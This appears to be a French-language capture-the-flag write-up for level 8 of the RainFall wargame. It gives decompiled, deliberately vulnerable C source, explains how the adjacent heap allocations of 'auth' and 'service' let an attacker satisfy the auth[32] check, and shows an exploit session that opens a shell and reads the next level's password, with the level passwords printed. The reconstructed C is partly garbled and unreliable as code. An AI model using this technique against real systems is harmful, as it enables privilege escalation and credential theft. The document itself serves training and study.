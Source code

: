 ## Level 8

pass : `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`

## Sources :

```c=
#include <stdio.h>

char	*auth = NULL;  // 0x08049aac
char	*service = NULL;  // 0x08049ab0

int	main() {
	while (1) {
		printf("%p, %p \n", auth, service);
		char	*in;  // exp+0x20
		if (fgets(in, 128, stdin) == 0)  // 0x80
			break;
		char *ptr = *in;
		char *auth_str = "auth ";  // ds:0x08049a80
		int i = 5;
		while (*ptr == *auth_str && i > 0) {
			ptr++;
			auth_str++;
			i--;
		}
		if (i == 0) {
			auth = malloc(4);
			*auth = '\0';
			i = 0;
			while (in[5 + i] != '\0') {
				i++;
			}
			i--;
			if (i <= 30) {  // 0x1e
				strcpy(auth, &in[5]);
			}
		}
		char *reset_str = "reset";  // 0x804881f
		int i = 5;
		ptr = *in;
		while (*ptr == *reset_str && i > 0) {
			ptr++;
			reset_str++;
			i--;
		}
		if (i == 0) {
			free(auth);
		}
		char *service_str = "service";  // 0x804881f
		int i = 6;
		ptr = *in;
		while (*ptr == *service_str && i > 0) {
			ptr++;
			service_str++;
			i--;
		}
		if (i == 0) {
			service = strdup(&in[7]);
		}
		char *login_str = "login";  // 0x804881f
		int i = 6;
		ptr = *in;
		while (*ptr == *login_str && i > 0) {
			ptr++;
			login_str++;
			i--;
		}
		if (i != 0) {
			continue;
		}
		if (auth[32] == '\0') {  // 0x20
			system("/bin/sh");
			continue;
		}
		fwrite("Password:\n", 1, 10, stdout);
	}
	return (0);
}
```

## Recherche :

Pour que l'on lance `system("/bin/sh");`, il faut que `auth[32] == '\0'`, mais comme on ne peut écrire que 30 caractères sur `auth`, on va passer par le fait que les deux variables `auth` et `service` sont contingentes, `0x08049ab0 - 0x08049aac = 4`, donc `auth[32] == service[28]`. On va donc mettre dans service une chaine de 28 caractères, qui sera directement complété par `\0` avec strdup.
Enfin, un coup de login et on est bon.

## Exploit

```shell=
level8@RainFall:~$ ./level8
(nil), (nil)
auth test
0x804a008, (nil)
service 0123456789012345678901234567
0x804a008, 0x804a018
login
$ whoami
level9
$ cd ../level9
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
```

